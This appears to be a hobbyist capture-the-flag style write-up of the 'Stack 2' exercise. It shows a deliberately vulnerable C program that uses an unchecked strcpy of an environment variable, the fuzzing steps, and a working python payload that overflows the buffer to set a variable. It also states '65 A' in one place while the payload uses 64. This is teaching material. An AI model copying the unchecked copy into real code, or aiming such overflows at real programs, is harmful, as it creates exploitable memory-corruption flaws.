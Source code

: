 # [cd ../](../index.md)
# Stack 2
> Stack2 looks at environment variables, and how they can be set.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

## Fuzzin it
- We know we have to use stg about getenv(`man getenv` for literally nothing xd)
- Start setting a `GREENIE` environment variable to `test` (`export GREENIE=test` then execute `./stack2`)
  - Got nothing useful (`Try again, you got 0x00000000`)
- Set 64 `A` as GREENIE
  - Same
- Set 65 `A` as GREENIE
  - Gotcha `Try again, you got 0x00000041`

## Exploitin it
- We need `modified` to be `0x0d0a0d0a` and it's a lil endian elf again cuz `A` (41) popped on the end.
![ascii](ascii.png)  
`0x0d0a0d0a` is `0a0d0a0d` and these are `\n\r\n\r`. These 4 are special chars so we have to use python and work in base16 with them.

## The payload
GREENIE has to be  65 `A` + `\x0a\x0d\x0a\x0d`
```
export GREENIE=$(python -c 'print 64*"A" + "\x0a\x0d\x0a\x0d"')
./stack2
you have correctly modified the variable
```
BOOOOM GOT IT :D

